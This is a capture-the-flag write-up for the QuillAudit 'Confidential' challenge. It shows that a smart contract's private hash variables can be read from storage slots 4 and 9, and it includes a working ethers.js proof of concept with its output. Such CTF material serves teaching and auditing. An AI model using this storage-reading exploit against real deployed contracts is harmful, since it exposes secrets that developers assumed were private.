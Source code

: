 # QuillAudit CTF Confidential

## Vulnerability:

The vulnerability arises from the assumption that private variables of a smart contract cannot be accessed at all. Though private variables do not have getter functions automatically generated like public vars, they can be read if we know the storage memory layout.

Each storage slot is 32 bytes which can contain a single variable or if properly fit, can have multiple smaller size variables in the same slot. In this case, slots 4 and 9 corresponding to “aliceHash” and “bobHash” respectively give us the required private data to exploit the contract.

## Attack Steps:

Get the variables stored at slot position 4 and 9.

To get these slots, use **_getStorageAt()_** which takes as parameters, the contract address and the number of slot we want to access.

After getting the bytes32 data, pass these as parameters to the hash function of the contract.

The result of this step is sent as a parameter to the **_checkthehash()_** function.

## POC:

```jsx
const API_KEY = "";
const PRIVATE_KEY = "";
const CONTRACT_ADDRESS = "0xf8E9327E38Ceb39B1Ec3D26F5Fad09E426888E66";

const contract = require("path/Confidential.json");

// console.log(JSON.stringify(contract.abi));
const alchemyProvider = new ethers.providers.AlchemyProvider(
  (network = "goerli"),
  API_KEY
);
const signer = new ethers.Wallet(PRIVATE_KEY, alchemyProvider);
const contractInstance = new ethers.Contract(
  CONTRACT_ADDRESS,
  contract.abi,
  signer
);

async function exec() {
  const slot4 = await alchemyProvider.getStorageAt(contractInstance.address, 4);
  const slot9 = await alchemyProvider.getStorageAt(contractInstance.address, 9);
  console.log(slot4);
  console.log(slot9);
  const resHash = await contractInstance.hash(slot4, slot9);
  const result = await contractInstance.checkthehash(resHash);
  console.log(result); //true
}
exec();
```

```bash
npx hardhat run scripts/Confidential.js
0x448e5df1a6908f8d17fae934d9ae3f0c63545235f8ff393c6777194cae281478
0x98290e06bee00d6b6f34095a54c4087297e3285d457b140128c1c2f3b62a41bd
true
```
